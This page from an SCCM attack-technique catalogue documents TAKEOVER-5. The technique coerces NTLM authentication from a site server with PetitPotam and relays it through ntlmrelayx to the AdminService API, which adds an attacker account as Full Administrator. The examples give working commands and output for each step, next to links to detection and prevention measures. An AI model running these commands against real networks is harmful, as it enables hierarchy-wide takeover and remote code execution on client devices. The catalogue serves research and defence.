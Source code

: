 # TAKEOVER-5

## Description
Hierarchy Takeover via NTLM coercion and relay to AdminService on remote SMS Provider

## MITRE ATT&CK TTPs
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-5.1: Coerce primary site server
    - TAKEOVER-5.2: Coerce passive site server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server [DEFAULT]
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server [DEFAULT]
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target [DEFAULT]

### Relay
- Connectivity from the relay server to HTTPS (TCP/443) on the relay target hosting the SMS Provider role
- Relay target domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target [DEFAULT]
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target [DEFAULT]

## Summary
The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations. The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. Access to the SMS Provider is controlled via membership of the the `SMS Admins` local security group on each site server. The site server computer account is a member of the `SMS Admins` security group on each SMS Provider in a site by default.

The SMS Provider also provides access to the site database via the administration service (AdminService) REST API and uses Microsoft Negotiate for authentication. In default configurations, the AdminService is vulnerable to NTLM relay attacks.

## Impact
This technique may allow an attacker to relay a site server's domain computer account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM hierarchy. If successful, this technique enables an attacker to execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [DETECT-5: Monitor group membership changes for SMS Admins](../../../defense-techniques/DETECT/DETECT-5/detect-5_description.md)
- [DETECT-5: Monitor group membership changes for RBAC_Admins table](../../../defense-techniques/DETECT/DETECT-6/detect-6_description.md)
- [PREVENT-9: Enforce MFA for SMS Provider calls](../../../defense-techniques/PREVENT/PREVENT-9/prevent-9_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

> **Note:** Extended Protection for Authentication (EPA) is not currently supported by the AdminService (as of March 2024), so cannot be configured to prevent relay to the AdminService.

## Subtechniques
- TAKEOVER-5.1: Coerce primary site server
- TAKEOVER-5.2: Coerce passive site server

## Examples

1. Use `SCCMHunter` to profile SCCM infrastructure:
    ```
    [02:00:25 PM] INFO     [+] Finished profiling all discovered computers.
    [02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                        +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                        | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
    ```

2. On the attacker relay server, start `ntlmrelayx` (currently, Garrett Foster's [fork/pull request here](https://github.com/fortra/impacket/pull/1593) must be used until it is merged into impacket), targeting the URL of the AdminService API on the remote SMS Provider identified in the previous step, and provide a target account to add as a Full Administrator:
    ```
    └─# python3 ntlmrelayx.py --adminservice --logonname "lab\specter" --displayname "lab\specter" --objectsid <USER SID> -smb2support -t https://SMS_PROVIDER_URL_OR_IP/AdminService/wmi/SMS_Admin
    Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666
    ```

3. From the attacker host, coerce NTLM authentication from the site server via SMB, targeting the relay server's IP address:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP>

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the AdminService on the SMS Provider to add a Full Administrator:
    ```
    ┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/adminservice/examples]


    [*] Servers started, waiting for connections
    [*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.121, attacking target https://provider.internal.lab
    [*] Exiting standard auth flow to add SCCM admin...
    [*] Authenticating against https://provider.internal.lab as LAB/SCCM$
    [*] Skipping user SCCM$ since attack was already performed
    [*] Server returned code 201, attack successful
    ```

4. Confirm that the account now has the `Full Administrator` role by querying WMI on an SMS Provider:
    ```
    $ python3 sccmhunter.py  admin -u specter -p <PASSWORD> -ip SITE-SMS

    [14:16:54] INFO     [!] Enter help for extra shell commands
    () (C:\) >> show_admins
    [14:17:11] INFO     Tasked SCCM to list current SMS Admins.
    [14:17:12] INFO     Current Full Admin Users:
    [14:17:13] INFO     lab\Administrator
    [14:17:13] INFO     lab\specter
    ```

## References
- Garrett Foster, [SCCMHunter](https://github.com/garrettfoster13/sccmhunter)
- Garrett Foster, [Site Takeover via SCCM's AdminService API](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)
- Microsoft, [Plan for the SMS Provider](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider)
- Microsoft, [What is the administration service in Configuration Manager?](https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview)
